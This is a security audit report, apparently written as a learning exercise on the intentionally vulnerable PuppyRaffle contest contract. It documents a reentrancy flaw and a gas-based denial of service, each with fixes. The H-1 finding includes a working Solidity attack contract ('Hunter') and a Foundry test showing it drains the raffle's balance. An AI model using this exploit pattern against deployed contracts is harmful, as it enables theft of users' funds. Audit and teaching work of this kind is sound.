 ![](logo.png) 
![](./img/puppy-raffle.png)

# Security Report for the PuppyRaffle CodeHawks FirstFlight Contest **learning*

**Source:** https://github.com/Cyfrin/2023-10-Puppy-Raffle

--------------------------------------------

### [H-1] Risk of Reentrancy in `PuppyRaffle::refund()` function

#### Description:
The `PuppyRaffle::refund()` can be re-entered because it does not follow the `CEI` (Checks-Effects-Interactions) pattern. Basically, interaction(s) with an external account is made before effects(state is updated).

<details>
<summary>Code</summary>

```solidity
    /// @param playerIndex the index of the player to refund. You can find it externally by calling `getActivePlayerIndex`
    /// @dev This function will allow there to be blank spots in the array
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        // checks 👇🏾
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        // interaction 👇🏾
        payable(msg.sender).sendValue(entranceFee);

        // effects (state updates) 👇🏾
        players[playerIndex] = address(0);

        emit RaffleRefunded(playerAddress);
    }
```

</details>

#### Impact:
If the caller of the `PuppyRaffle::refund()` function is a contract with a `receive()` function, then the `PuppyRaffle::refund()` function can be re-entered before the state is updated.

#### Proof of Concept:

Create a `Hunter` contract 👇🏾:

<details>
<summary>Hunter</summary>

```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.7.6;

    import {PuppyRaffle} from "./PuppyRaffle.sol";

    contract Hunter {
        PuppyRaffle puppy;
        address hunter = address(this);

        constructor(PuppyRaffle _puppy) {
            puppy = _puppy;
        }

        function poach() public payable {
            require(msg.value == puppy.entranceFee());

            // create a dynamic array, and push the Hunter's address
            address[] memory players = new address[](1);
            players[0] = hunter; // address(this) is the address of this contract, which is the Hunter contract

            // enter raffle
            puppy.enterRaffle{value: msg.value}(players);

            // find index of the Hunter's address
            uint256 hunterIndex = puppy.getActivePlayerIndex(hunter);

            // refund hunter
            puppy.refund(hunterIndex);
        }

        receive() external payable {
            // find index of the Hunter's address
            uint256 hunterIndex = puppy.getActivePlayerIndex(hunter);

            if (address(puppy).balance >= 1e18) {
                puppy.refund(hunterIndex);
            }
        }
    }

```

</details>

Modify `PuppyRaffleTest.t.sol` test contract 👇🏾:
  
<details>
<summary>PuppyRaffleTest</summary>

````diff
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.7.6;
    pragma experimental ABIEncoderV2;

    import {Test, console} from "forge-std/Test.sol";
    import {PuppyRaffle} from "../src/PuppyRaffle.sol";
+   import {Hunter} from "../src/Hunter.sol";

    contract PuppyRaffleTest is Test {
        PuppyRaffle puppyRaffle;
        uint256 entranceFee = 1e18;
        address playerOne = address(1);
        address playerTwo = address(2);
        address playerThree = address(3);
        address playerFour = address(4);
        address feeAddress = address(99);
        uint256 duration = 1 days;

+       Hunter hunter;

        function setUp() public {
            puppyRaffle = new PuppyRaffle(entranceFee, feeAddress, duration);
+           hunter = new Hunter(puppyRaffle);
        }
    }
````
</details>

Add the following test 👇🏾:

<details>
<summary>Code</summary>

```solidity
    function testHunterReentrancyAttackSuccessful() public {
        address[] memory players = new address[](5);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        players[4] = address(hunter);
        puppyRaffle.enterRaffle{value: entranceFee * 5}(players);

        console.log(address(puppyRaffle).balance);
        assert(address(puppyRaffle).balance == 5e18);

        // attack logic
        uint256 hunterIndex = puppyRaffle.getActivePlayerIndex(address(hunter));
        // hunter attacks
        vm.prank(address(hunter));
        puppyRaffle.refund(hunterIndex);

        // assert PuppyRaffle's contract has been drained
        assert(address(puppyRaffle).balance == 0);
        // assert Hunter's balance has increased more than expected
        assert(address(hunter).balance == 5e18);
    }
```

</details>

#### Tools Used:

- Foundry
- Slither
- Manual Review
- Remix
- Chat GPT

#### Recommended Mitigation:

Re-arrange the `PuppyRaffle:refund()` fund to follow `CEI` pattern:

<details>
<summary>Code</summary>

```solidity
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        // Update state before sending Ether
        players[playerIndex] = address(0);

        // Now transfer the refund
        payable(msg.sender).sendValue(entranceFee);

        emit RaffleRefunded(playerAddress);
    }
```

</details>

Also the `nonReentrant` modifier from [OpenZeppelin `ReentrancyGuard`](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard) could be used.

-----------------------------------------------------------------

### [M-1] Possible DoS attack due to loop through `players` array to check for duplicates in `PuppyRaffle::enterRaffle()` function, thus significant increase in gas costs for future entrants

#### Description:       
The `PuppyRaffle::enterRaffle()` conducts a duplicate address check whenever a new address wants to join the raffle, by looping through the `players` array. This method means that gas costs for performing that transaction (entering the raffle) are significantly cheaper for players who enter at the start of the raffle, and significantly costlier for players who enter the raffle at later stages. Every new player, is an extra `address` the `PuppyRaffle::enterRaffle()` function has to loop through when conducting duplicate address check.

<details>
<summary>Code</summary>

```solidity
        // Check for duplicates
            for (uint256 i = 0; i < players.length - 1; i++) {
                for (uint256 j = i + 1; j < players.length; j++) {
                    require(players[i] != players[j], "PuppyRaffle: Duplicate player");
                }
            } // @question could there be gas issues that could lead to a DOS attack because of this for loop?
```

</details>

#### Impact:
The gas costs for entering the raffle increases distrubingly as more players enter the raffle. This could cause a rush from players wanting to be one of the first in queue, as well as discourage prospective future players.   
An attacker could make the `PuppyRaffle::entrants`array so large that no other player is able to enter, thus guaranteeing themselves the win.

#### Proof of Concept:
If there are two sets of players, each set being 500 players large, below is the estimated gas costs:
- First 500 players: ~110091567 gas
- Next 500 players: ~405906812 gas
  
  That is a nearly 4x increase in gas costs for the next 500 players.

  <details>
  <summary>PoC</summary>
  Place the following test into the `PuppyRaffleTest.t.sol` test contract
    
    ```solidity
        function testDOS() public {
            // address[] memory players = new address[](1);
            // players[0] = playerOne;
            // puppyRaffle.enterRaffle{value: entranceFee}(players);
            // assertEq(puppyRaffle.players(0), playerOne);

            vm.txGasPrice(1); // set gas price to 1
            // Let's enter 500 players
            uint256 totalPlayers = 500;
            address[] memory players = new address[](totalPlayers);
            for (uint256 a = 0; a < totalPlayers; a++) {
                players[a] = address(a);
            }

            // gas calculations
            uint256 gasStart = gasleft();

            // enter raffle
            puppyRaffle.enterRaffle{value: entranceFee * totalPlayers}(players);

            // gas calculations
            uint256 gasEnd = gasleft();
            uint256 gasUsedForFirstFiveHundred = (gasStart - gasEnd) * tx.gasprice;
            console.log("The gas cost for the first 500 players is: ", gasUsedForFirstFiveHundred);

            // Let's enter extra 500 players
            // @note the higher the number of extra players you want to add, the more gas this test uses, and at a certain number(say 1000), the enterRaffle() function for the next set of players will fail with a out-of-gas error
            address[] memory playersExtra = new address[](totalPlayers);
            for (uint256 a = 0; a < totalPlayers; a++) {
                playersExtra[a] = address(a + totalPlayers);
                // @note -- the use of address(a + totalPlayers) is so that addresses start from 500+1 (501)
            }
            // gas calculations
            uint256 gasStartExtraPlayers = gasleft();

            // enter raffle for the extra 500 players
            puppyRaffle.enterRaffle{value: entranceFee * totalPlayers}(playersExtra);

            // gas calculations
            uint256 gasEndExtraPlayers = gasleft();
            uint256 gasUsedForNextFiveHundred = (gasStartExtraPlayers - gasEndExtraPlayers) * tx.gasprice;
            console.log("The gas cost for the extra 500 players is: ", gasUsedForNextFiveHundred);

            assert(gasUsedForFirstFiveHundred < gasUsedForNextFiveHundred);
        }
    ```

  </details>

#### Tools Used:
- Manual Review
- Foundry

#### Recommended Mitigation:
 Here are a few recommended mitigations:

- Consider using a `mapping` to check for duplicates. This will allow for constant time look up of whether a user has already entered the raffle.
- Consider allowing duplicate addresses. Especially since users can make new wallet addressess regardles, so a duplicate check doesn't prevent the same peron from entering multiple times, omly the same wallet address.
- Alternatively, [OpenZeppelin's `EnumerableSet` Library](https://docs.openzeppelin.com/contracts/4.x/api/utils#EnumerableSet) could be used.
